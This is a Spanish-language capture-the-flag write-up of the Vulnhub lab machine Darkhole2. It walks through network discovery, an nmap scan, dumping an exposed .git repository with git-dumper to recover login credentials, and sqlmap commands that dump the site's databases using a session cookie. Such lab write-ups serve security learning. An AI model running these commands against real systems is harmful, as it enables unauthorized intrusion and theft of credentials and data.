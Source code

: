 # Darkhole2-Vulnhub-Writeup
Writeup de la maquina Darkhole2 de Vulnhub

El sistema se pondra a prueba en VirtualBox

## Escaneo de Red

En primer lugar, tenemos que obtener la dirección IP del objetivo
!https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/netdiscover.jpg
~~~
netdiscover
~~~

Iniciando Nmap para avanzar en este proceso. Realizamos un escaneo agresivo (-A) para la enumeración de puertos abiertos y descubrimos la siguiente información de puertos:
~~~
nmap -A 192.168.40.133
~~~
De acuerdo con la salida de Nmap, tenemos:
Un servidor SSH que se ejecuta en el puerto 22
Un servicio HTTP ejecutándose (servidor Apache) en el puerto 80, así como una página http-git

## Enumerar el servidor web

Debido a que el servidor Apache está escuchando en el puerto 80, podemos verificarlo inmediatamente en el navegador.

Decidimos echar un vistazo a la página de inicio de sesión

Decidimos echar un vistazo a la página http-git que descubrimos previamente durante el escaneo agresivo de Nmap.

Usamos git-dumper
Es una herramienta para adquirir un repositorio git de un sitio web para obtener una mejor comprensión del conjunto de datos.
Simplemente usamos la función de clonación de git.
Creamos un directorio para nuestro respaldo .git
~~~
cd darkhole2
git clone https://github.com/arthaud/git-dumper.git
ls
cd git-dumper 
mkdir backup
~~~
Después de descargar la herramienta, intentamos ejecutarla con python .
Después de eso, accedimos al directorio de respaldo y el archivo de registro tenía tres entradas. Usando git, abrimos una de las entradas para progresar en este laboratorio.
Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.
~~~
python3 git_dumper.py http://192.168.40.133/.git/ backup 
cd backup
ls
git log
git diff  a4d900a8d85e8938d3601f3cef113ee293028e10
~~~
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" --dbs –batch   //vemos las bases de datos

sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" -D darkhole_2 --dump-all --batch
date: "14/07/2023"
